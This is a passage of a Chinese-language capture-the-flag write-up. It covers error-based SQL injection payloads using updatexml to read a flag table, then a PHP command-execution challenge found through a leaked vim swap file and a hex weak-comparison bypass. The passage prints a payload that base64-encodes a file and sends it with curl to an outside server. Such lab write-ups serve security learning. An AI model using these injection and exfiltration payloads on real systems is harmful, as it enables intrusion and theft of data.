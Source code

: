 然后就是报错注入，注意语句中不能再出现 `0` 了：

```
number=0&username=%00'or updatexml(1,concat(hex(126),(select group_concat(table_name) from information_schema.tables where table_schema=database()),hex(126)),1)#&password=ccc&submit=

number=0&username=%00'or updatexml(1,concat(hex(126),(select flag from flag),hex(126)),1)#&password=ccc&submit=

number=0&username=%00'or updatexml(1,concat(hex(126),substr((select flag from flag),21,99),hex(126)),1)#&password=ccc&submit=
```

## EXEC

F12 在 html 的 head 标签中发现 `editor="vim"`，显然能下载 `.index.php.swp`：

```php
<?php
/*
flag in flag233.php
*/
 function check($number)
{
        $one = ord('1');
        $nine = ord('9');
        for ($i = 0; $i < strlen($number); $i++)
        {
                $digit = ord($number{$i});
                if (($digit>= $one) && ($digit <= $nine) )
                {
                        return false;
                }
        }
           return $number == '11259375';
}
if(isset($_GET[sign])&& check($_GET[sign])){
        setcookie('auth','tcp tunnel is forbidden!');
        if(isset($_POST['cmd'])){
                $command=$_POST[cmd];
                $result=exec($command);
                //echo $result;
        }
}else{
        die('no sign');
}
?>
```

首先需要一个 GET 参数，其值为 `11259375` 但不能包含 `1-9` 中的数字。注意到这里的弱比较，可以将该数字转为十六进制，恰好为 `0xabcdef`，不包含 `1-9`，因此提交 `?sign=0xabcdef` 可以发现 `no sign` 的提示没有了。

接下来在保留刚才的参数的同时 POST 命令就可以执行了，但是没有回显，猜想是通过 `nc` 把 `flag233.php` 反弹到自己的服务器上，并且需要走 UDP，但是最终没有成功。最终采用了 curl 的方法，把文件内容 base64 编码后放在 url 里向服务器发送请求，并在日志中查看 flag。payload：

```
cmd=data=$(cat flag233.php | base64);curl http://xx.xx.xx.xx?data=$data;
```

在 `access.log` 中即可得到编码后的 `flag233.php`。
